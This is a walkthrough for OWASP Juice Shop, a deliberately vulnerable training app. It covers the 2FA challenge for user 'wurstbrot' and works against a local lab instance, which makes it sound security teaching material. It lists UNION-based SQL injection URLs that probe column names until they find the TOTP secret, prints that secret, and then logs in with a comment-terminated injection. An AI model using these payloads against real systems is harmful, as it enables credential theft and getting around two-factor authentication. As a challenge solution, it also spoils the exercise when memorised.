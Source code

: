 ### Solve the 2FA challenge for user "wurstbrot"

1. [Access the administration section of the store](#access-the-administration-section-of-the-store)
   while inspecting network traffic.
2. You will learn the email address of the user in question is
   unsurprisingly `wurstbrot@juice-sh.op`.
3. You will also notice that there is no information about any user's
   2FA configuration in the responses from `/api/Users`.
4. Solve
   [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
   and keep its final attack payload ready.
5. Change the one of the `null`s in payload to hopefully find a column
   that contains the secret key for the 2FA setup:
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fa,null,null,null,null%20from%20users-->
     yields a `500` error with `SequelizeDatabaseError: SQLITE_ERROR: no
     such column: 2fa`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fakey,null,null,null,null%20from%20users-->
     fails with `no such column: 2fakey`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fasecret,null,null,null,null%20from%20users-->
     fails with `no such column: 2fasecret`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totp,null,null,null,null%20from%20users-->
     also fails with `no such column: totp`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpkey,null,null,null,null%20from%20users-->
     fails again yielding `no such column: totpkey`.
   * <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users-->
     finally succeeds with a `200` response as this column exists!
6. In the response from
   <http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users-->
   find the entry of user `wurstbrot@juice-sh.op` with
   `"image":"IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH"` whereas all other users
   have `"image":""` set.
7. Using your favorite 2FA application (e.g.
   [Google Authenticator](https://play.google.com/store/apps/details?id=com.google.android.apps.authenticator2))
   create a new entry, but instead of scanning any QR code type in the
   key `IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH` manually.
8. Go to <http:localhost:3000/#/login> and use SQL Injection to log in
   with `wurstbrot@juice-sh.op'--` as _Username_ and anything as
   _Password_.
9. You will be presented with the _Two Factor Authentication_ input
   screen where you now have to type in the 6-digit code currently
   displayed on your 2FA app.
